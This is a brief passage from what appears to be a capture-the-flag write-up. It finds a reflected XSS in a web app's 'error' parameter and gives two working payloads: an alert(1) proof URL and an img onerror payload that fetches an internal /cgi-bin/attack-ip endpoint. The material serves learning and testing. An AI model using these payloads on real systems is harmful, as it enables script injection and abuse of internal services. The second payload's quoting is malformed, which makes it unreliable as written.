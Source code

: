 
When I put a name and a domain, and click attack domain, it shows an error.

I see that the error is being reflected from the url

I find a XSS there after writing:

http://83.136.253.40:40650/?error=%3Cimg%20src=%22x%22%20onerror=%22alert(1)%22%3E

this opens an alert.

<img%20src="x"%20onerror="fetch(/cgi-bin/attack-ip?target=127.0.0.1&name=hacker%27).then(r%20=>%20r.text()).then(t%20=>%20console.log(t))"%20/>